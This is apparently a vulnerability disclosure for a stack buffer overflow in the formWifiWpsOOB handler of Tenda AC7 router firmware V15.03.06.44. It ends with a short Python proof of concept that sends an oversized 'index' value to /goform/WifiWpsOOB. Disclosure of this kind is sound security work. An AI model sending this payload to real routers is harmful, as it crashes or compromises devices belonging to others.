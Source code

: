 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 firmware has a stack overflow vulnerability in the `formWifiWpsOOB` function. The `index` variable receives the `index` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `index` can trigger this security vulnerability.

![image-20240318164244489](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318164244489.png)

![image-20240318164219257](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318164219257.png)

![image-20240318164233065](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318164233065.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiWpsOOB"
payload = b"a"*2000

data = {"index": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240318164453789](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318164453789.png)
